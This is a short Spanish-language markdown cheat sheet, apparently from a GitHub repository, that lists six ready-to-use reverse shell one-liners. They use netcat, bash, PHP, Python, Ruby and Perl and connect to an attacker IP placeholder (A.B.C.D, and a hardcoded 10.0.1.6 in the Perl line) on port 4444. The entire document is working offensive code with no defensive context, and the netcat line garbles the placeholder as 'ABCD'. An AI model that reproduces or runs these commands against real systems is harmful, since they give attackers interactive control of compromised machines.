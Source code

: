 # Formas de crear una shell reversa

Donde **A.B.C.D** es la ip del atacante y **4444** el puerto a la escucha en el atacante

1. Con **netcat**
```bash
nc -e /bin/sh ABCD 4444
```

2. Con **bash**
```bash
bash -i >& /dev/tcp/A.B.C.D/4444 0>&1
```

3. Con **php**
```bash
php -r '$sock=fsockopen("A.B.C.D",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

4. Con **python**
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("A.B.C.D",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

5. Con **ruby**
```bash
ruby -rsocket -e'f=TCPSocket.open("A.B.C.D",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

6. Con **perl**
```bash
perl -e 'use Socket;$i="10.0.1.6";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```